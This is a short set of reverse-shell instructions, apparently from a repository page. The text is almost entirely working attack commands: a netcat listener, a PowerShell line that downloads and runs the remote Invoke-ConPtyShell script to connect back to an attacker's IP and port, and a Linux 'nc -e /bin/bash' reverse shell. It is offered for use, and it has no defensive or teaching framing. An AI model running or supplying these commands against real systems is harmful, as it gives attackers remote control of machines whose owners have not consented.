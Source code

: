 For the Listener on windows the command will be: stty raw -echo; (stty size; cat) | nc -lvnp [PORT]
this listener only works for a windows target.

What you need to do on the target computer if it is a windows computer is: IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell [IP ADRESS] [PORT]

if your target is a linux computer you will use: nc -e /bin/bash [IP ADRESS] [PORT]

